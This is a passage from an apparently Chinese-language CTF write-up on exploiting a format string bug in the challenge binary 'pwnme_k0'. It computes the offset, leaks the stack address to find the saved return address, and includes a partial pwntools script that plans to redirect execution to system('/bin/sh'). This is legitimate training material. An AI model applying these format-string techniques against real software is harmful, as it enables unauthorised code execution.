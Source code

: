 ```
   f 2           400d74
   f 3           400e98
   f 4     7f6c9f4dff45 __libc_start_main+245
```

这样就找到了，偏移为10，不过0x7025702500000000被00截断了，应该用“后入式“，把地址写在后面，所以偏移应该取12



### <a class="reference-link" name="%E4%BF%AE%E6%94%B9%E8%BF%94%E5%9B%9E%E5%9C%B0%E5%9D%80"></a>修改返回地址

我们知道：**虽然存储返回地址的内存本身是动态变化的，但是其相对于rbp的地址并不会改变，所以我们可以使用相对地址来计算。**

```
[────────────────────────────────────STACK─────────────────────────────────────]
00:0000│ rsp    0x7fff8ee7f1b8 —▸ 0x400b3e 返回地址
01:0008│ rbp    0x7fff8ee7f1c0 —▸ 0x7fff8ee7f200 
02:0010│        0x7fff8ee7f1c8 —▸ 0x400d74
```

这里的返回地址是printf的返回地址，此时rbp还没有变化，还没有进入printf，还是当前函数的rbp，则rbp指向的就是old rbp的地址。<br>
所以当前的返回地址就在rbp+8，即0x400d74。<br>
存储返回地址的内存就是0x7fff8ee7f1c8，它相对于相对于old rbp的地址就是：0x7fff8ee7f200-0x7fff8ee7f1c8=0x38。<br>
（这部分说的有点乱，先这么理解着吧……）<br>
总之用格式化串先读0x7fff8ee7f1c0地址（offset 6)，得到rbp的地址是0x7fff8ee7f200，再减去0x38就得到存储返回地址的内存地址是0x7fff8ee7f1c8。<br>
然后leak出这个地址后，就可以去覆盖这个地址存放的返回值为我们的system(‘/bin/sh’)即0x4008A6<br>
当函数返回的时候就getshell.<br>[![](https://p0.ssl.qhimg.com/t013bfa1b2aebe7cd76.png)](https://p0.ssl.qhimg.com/t013bfa1b2aebe7cd76.png)

```
from pwn import *
context.log_level = 'debug'
elf=ELF('./pwnme_k0')
p=process('./pwnme_k0')
gdb.attach(p,'break *0x400B39')
# gdb.attach(p,'break *0x400B3E')
p.recvuntil('Input your username(max lenth:20):')
p.sendline('a'*8)
p.recvuntil('Input your password(max lenth:20):')
p.sendline('%6$p')
p.recvuntil('&gt;')
p.sendline('1')
data=p.recvuntil('&gt;')
data=data.split('n')[1]
leak_addr=hex(int(data,16)-0x38)
print leak_addr
p.sendline('3')
```



### <a class="reference-link" name="getshell"></a>getshell
